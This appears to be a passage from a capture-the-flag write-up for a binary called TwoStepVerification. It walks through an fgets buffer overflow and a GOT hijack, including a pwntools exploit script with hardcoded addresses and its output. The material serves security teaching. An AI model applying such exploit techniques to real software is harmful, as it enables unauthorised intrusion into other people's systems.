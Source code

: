 - There is a very huge overflow here. We can pretty much write what we want on
  the stack with that much buffer size. But since this binary doesnt allow
  execution on the stack(by running `checksec`), we can discard the possibility
  of injecting shellcode. Its probably something else. We can also see what the
  expected password is.

## Exploit

- We have figured out that there is a vulnerability in fgets call in main that
  we can exploit. To even get close to the flag we first need to see what stuff
  is happening inside the other two functions, we need to know what they are
  printing. And since the first fgets call allows us to write `0x16 bytes`(6
  illegal bytes) and then there's another similar fgets call with the same
  pointer(which is very much vulnerable), we could write to arbitrary address
  with this if we give our first input suitably.

```python
from pwn import *
# The binary asked Name and Password
Filename = './TwoStepVerification'  # Put filename


def gotHijack() -> None:
    Name = 'a'*16+"\x20\xc0\x04\x08"
    Password = "\xe3\x92\x04\x08"
    p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    p.interactive()


gotHijack()
```

- Output

```bash
[+] Starting local process './TwoStepVerification': pid 16505
[*] Switching to interactive mode
Enter your name:
Now Enter password:
aaaaaaaaaaaaaaaa \xc

Here's a hint: ec386dfa
Enter 2nd Password: $ Ok
[*] Got EOF while reading in interactive
```

We see our first input getting printed(the first fgets input) and after that,
some hex value being printed and its telling us its very useful . And after that
we are being asked to input 2nd password. Judging from what we know, this 2nd
password is probably being asked by the `verification2` function call.

It seems that the string that was supposed to be printed by the puts call is
being passed as an argument after that GOT hijack, And since the function prints
the argument passed to it(observed in the objdump), thats what seems to be
happening.
